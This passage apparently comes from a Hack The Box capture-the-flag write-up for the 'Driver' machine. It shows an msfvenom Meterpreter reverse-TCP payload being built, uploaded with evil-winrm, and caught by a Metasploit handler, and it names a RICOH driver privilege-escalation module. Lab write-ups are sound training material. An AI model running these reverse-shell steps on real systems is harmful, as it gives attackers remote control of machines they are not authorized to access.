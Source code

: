 It seems that the user added a printer with the name `RICOH_PCL6`, searching for this printer reveals it's vulnerable to a local privilege escalation.

The exploit is the metasploit module `exploit/windows/local/ricoh_driver_privesc`.

Let's first get a `Meterpreter` session.

We generate a reverse shell with `msfvenom`:

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.17.90 LPORT=9001 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
```

Upload the exe file to the target using `evil-winrm`.

```shell
*Evil-WinRM* PS C:\Users\tony\downloads> upload /home/parrot/CTF/HTB/Machines/driver/rev.exe
                                        
Info: Uploading /home/parrot/CTF/HTB/Machines/driver/rev.exe to C:\Users\tony\downloads\rev.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\downloads>
```

Setup a handler on `metasploit`.

```shell
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 9001
lport => 9001
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.17.90:9001
```

Now back to `evil-winrm` we run the file `.\rev.exe`

```shell
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.17.90:9001 
[*] Sending stage (200774 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.17.90:9001 -> 10.10.11.106:49445) at 2023-11-15 10:33:52 +0000

(Meterpreter 1)(C:\Users\tony\downloads) > 
```
